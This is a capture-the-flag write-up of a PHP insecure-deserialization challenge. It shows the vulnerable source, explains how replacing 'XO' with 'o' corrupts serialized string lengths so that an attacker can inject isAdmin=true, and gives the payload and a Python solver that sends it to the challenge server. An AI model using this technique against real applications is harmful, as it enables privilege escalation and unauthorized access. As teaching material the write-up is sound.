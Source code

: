 ```yaml
---
title: ICMTC Finals - Puzzle 2
author: 0x41ly
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-17 06:00:00 +0800
categories: CTF
description: "no one has solved Puzzle 2 in ICMTC CSC CTF Finals..."
tags: [php, insecure-deserialization]
---
```



We were provided a source code:
```php
<?php

include 'flag.php';

session_start();
class Users
{
    protected $username;
    protected $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}


isset($_GET['src']) ? highlight_file(__FILE__) : '';


if(isset($_POST['solve']))
{
    $user = new Users($_POST['username'],$_POST['password']);
    $_SESSION['user'] = serialize($user);

}
else
{
    if(!isset($_SESSION['user']))
        $user = new Users("EG-CERT","Hi!");
    else
    {
        $user = str_replace('XO', 'o', $_SESSION['user']);
        $user = unserialize($user);
    }

    if($user -> __isAdmin())
        echo $FLAG;
    else
        echo "Try Again !!";

}
?>
```

To read the Flag we must set the `isAdmin` to true 
#### **Obstacles** :
- we don't have control to the whole serialized object but only 2 variables that be used in serialization and unserialization.

#### Bypasses:
- we have a good hint here
    ```php
    $user = str_replace('XO', 'o', $_SESSION['user']);
    ```
    where we can manipulate the length of the serialized object before being serialized.

  #### Example 
  Lets at first see an example of a normal serialized object
  ```php
  $user= new Users("lol","lol");
  echo serialize($user);
// O:5:"Users":
//  4:{
//      s:11:"�*�username";
//          s:3:"lol";
//      s:11:"�*�password";
//              s:3:"lol";
//      s:14:"�Users�isAdmin";
//          b:0;
//      s:9:"�Users�id";
//              s:0:"";
//    }
```

It is very important to take care of the null bytes in the serialized object as they are considered as a part of the string length here.

#### MindSet
- We will try to manipulate the length of the serialized object before its being unserialized by using the `XO` hint
if we set the username to a `XOXOXOXOXOXO` the usernamestring will be considered as 12 byte long string but before unserialize the same object the XO will be replaced with "o" which will make the string itself 6 byte long but when unserialize the object the function will replace the missing 6 bytes with the next 6 bytes after the replacd string 
##### Example
Let's forget about the nullbytes now but we will need it later
```php
 $user = new Users("XOXOXOXOXO","");
O:5:"Users":4:
{
    s:11:"*username";
        s:10:"XOXOXOXOXO";
    s:11:"*password";
        s:0:"";
    s:14:"UsersisAdmin";
        b:0;
    s:9:"Usersid";
        s:0:"";
}
```

after this being replaced the object will be  like this
```php
O:5:"Users":4:
{
    s:11:"*username";
        s:10:"ooooo";s:1
    //and here it will gives you a parse error
    //1:"*password";
    //s:0:"";s:14:"UsersisAdmin";
    //b:0;s:9:"Usersid";s:0:"";}
```

What can we benefit from this?
We can force the serialized object to reconstruct itself so we can control the whole object.

The attack contains 2 parts.
##### First part -- Username
we will force the username to be equal `{n*o}";s:11:"�*�password";s:{password part payload length}:`

if we count the byte needed considering that the password payload is 2 digits long we need 26 bytes including the null bytes to be replaced so we will just write 26 `XO's`

```php
$user= new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",
            "{there will be a payload here}");

O:5:"Users":4:
{
    s:11:"*username";
        s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:30:"
        // here we can control the password payload
        {there will be a payload here}";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}

```

and now it is obvious what we are going to do we will put the rest of the object n the password string.

 Second part -- Password
 What messing in the object is the Password field and the most important part which is `isAdmin` attribute 
 
 The final payload will be 
 ```php
 s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:49:"
```

so when it be put all together the object look like 
``` php
O:5:"Users":4:{
    s:11:"*username";
        s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:75:";
    s:11:"*password";
        s:0:"";
    s:14:"UsersisAdmin";
        b:1;
    s:9:"Usersid";
        s:49:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";
}

```

So if we created the object like this 
```php
$user = new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",";s:11:\"\0*\0password\";s:0:\"\";s:14:\"\0Users\0isAdmin\";b:1;s:9:\"\0Users\0id\";s:49:\"");
$serialized= serialize($user);
$serialized2 = str_replace('XO', 'o', $serialized);
$unser_user = unserialize($serialized2);
echo var_dump($unser_user);
```

![](/assets/images/puzzle2/explain.png)

Now we reached our objective to make the `isAdmin=true`

solver.py
```python
from requests import post
from base64 import b64decode

url = "http://139.59.129.141:8087/"
payload = ';s:11:"\x00*\x00password";s:0:"";s:14:"\x00Users\x00isAdmin";b:1;s:9:"\x00Users\x00id";s:49:"'
body = {'solve': 'true', 'username': 'XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO', 'password': payload}

# res = post("http://localhost:8080", data=body)
res = post(url, data=body)

cookie = res.headers['Set-Cookie']

print(cookie)
res = post(url , headers={'Cookie': cookie})
print(res.text)
```


![](/assets/images/puzzle2/demo.jpeg)



---
Thanks for reading our writeup
